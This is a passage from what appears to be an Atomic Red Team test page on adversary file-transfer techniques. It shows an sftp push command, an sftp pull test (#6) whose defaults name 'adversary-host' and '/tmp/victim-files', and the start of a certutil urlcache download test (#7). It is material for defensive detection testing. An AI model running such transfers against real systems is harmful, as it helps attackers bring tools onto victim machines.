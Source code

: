 
```sh
sftp #{username}@#{remote_host}:#{remote_path} <<< $'put #{local_file}'
```






<br/>
<br/>

## Atomic Test #6 - sftp remote file copy (pull)
Utilize sftp to perform a remote file copy (pull)

**Supported Platforms:** Freebsd, Linux, macOS


**auto_generated_guid:** 0139dba1-f391-405e-a4f5-f3989f2c88ef





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote host to copy from | string | adversary-host|
| local_path | Local path to receive sftp | path | /tmp/victim-files/|
| remote_file | Path of file to copy | path | /tmp/adversary-sftp|
| username | User account to authenticate on remote host | string | adversary|


#### Attack Commands: Run with `sh`! 


```sh
sftp #{username}@#{remote_host}:#{remote_file} #{local_path}
```






<br/>
<br/>

## Atomic Test #7 - certutil download (urlcache)
Use certutil -urlcache argument to download a file from the web. Note - /urlcache also works!

**Supported Platforms:** Windows


**auto_generated_guid:** dd3b61dd-7bbc-48cd-ab51-49ad1a776df0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | URL of file to copy | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | path | Atomic-license.txt|
